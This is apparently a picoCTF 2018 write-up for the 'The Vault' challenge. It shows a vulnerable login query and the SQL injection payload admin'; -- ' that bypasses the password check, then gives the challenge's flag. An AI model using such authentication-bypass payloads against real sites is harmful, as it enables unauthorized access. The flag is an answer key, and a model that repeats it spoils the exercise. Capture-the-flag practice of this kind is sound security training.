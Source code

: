 
# The Vault

## Q

There is a website running at http://2018shell.picoctf.com:53261 (link). Try to see if you can login!



## S

Try the sql injection
```
"SELECT 1 FROM users WHERE name='$username' AND password='$password'";
```

"SELECT 1 FROM users WHERE name='admin'; -- '  AND password='$password'";


admin'; -- '



## A

picoCTF{w3lc0m3_t0_th3_vau1t_23495366}


